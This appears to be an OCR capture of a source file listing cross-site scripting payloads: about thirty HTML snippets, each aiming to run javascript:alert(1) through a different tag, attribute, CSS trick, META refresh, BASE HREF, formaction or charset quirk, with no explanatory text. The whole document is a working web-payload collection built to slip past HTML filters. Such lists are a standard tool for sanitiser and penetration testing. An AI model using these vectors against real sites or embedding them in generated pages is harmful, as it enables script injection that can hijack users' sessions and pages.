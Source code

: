 &lt;IMG SRC=`javascript:javascript:alert(1)`&gt;

&lt;FRAMESET&gt;&lt;FRAME SRC="javascript:javascript:alert(1);"&gt;&lt;/FRAMESET&gt;

&lt;BODY ONLOAD=javascript:alert(1)&gt;

&lt;BODY ONLOAD=javascript:javascript:alert(1)&gt;

&lt;IMG SRC="jav    ascript:javascript:alert(1);"&gt;

&lt;BODY onload!#$%%&()*~+-_.,:;?@[/|\]^`=javascript:alert(1)&gt;

&lt;IMG SRC="javascript:javascript:alert(1)"

&lt;INPUT TYPE="IMAGE" SRC="javascript:javascript:alert(1);"&gt;

&lt;IMG DYNSRC="javascript:javascript:alert(1)"&gt;

&lt;IMG LOWSRC="javascript:javascript:alert(1)"&gt;

&lt;BGSOUND SRC="javascript:javascript:alert(1);"&gt;

&lt;BR SIZE="&{javascript:alert(1)}"&gt;

&lt;LINK REL="stylesheet" HREF="javascript:javascript:alert(1);"&gt;

&lt;META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:javascript:alert(1);"&gt;

&lt;META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:javascript:alert(1);"&gt;

&lt;IFRAME SRC="javascript:javascript:alert(1);"&gt;&lt;/IFRAME&gt;

&lt;TABLE BACKGROUND="javascript:javascript:alert(1)"&gt;

&lt;TABLE&gt;&lt;TD BACKGROUND="javascript:javascript:alert(1)"&gt;

&lt;DIV STYLE="background-image: url(javascript:javascript:alert(1))"&gt;

&lt;DIV STYLE="width:expression(javascript:alert(1));"&gt;

&lt;STYLE TYPE="text/javascript"&gt;javascript:alert(1);&lt;/STYLE&gt;

&lt;STYLE type="text/css"&gt;BODY{background:url("javascript:javascript:alert(1)")}&lt;/STYLE&gt;

&lt;!--[if gte IE 4]&gt;&lt;SCRIPT&gt;javascript:alert(1);&lt;/SCRIPT&gt;&lt;![endif]--&gt;

&lt;BASE HREF="javascript:javascript:alert(1);//"&gt;

&lt;OBJECT classid=clsid:ae24fdae-03c6-11d1-8b76-0080c744f389&gt;&lt;param name=url value=javascript:javascript:alert(1)&gt;&lt;/OBJECT&gt;

&lt;form id="test" /&gt;&lt;button form="test" formaction="javascript:javascript:alert(1)"&gt;X

&lt;body onscroll=javascript:alert(1)&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;input autofocus&gt;

&lt;P STYLE="behavior:url('#default#time2')" end="0" onEnd="javascript:alert(1)"&gt;

&lt;STYLE&gt;a{background:url('s1' 's2)}@import javascript:javascript:alert(1);');}&lt;/STYLE&gt;

&lt;meta charset= "x-imap4-modified-utf7"&&&gt;&&&lt;script&&&gt;javascript:alert(1)&&;&&&lt;&&/script&&&gt;
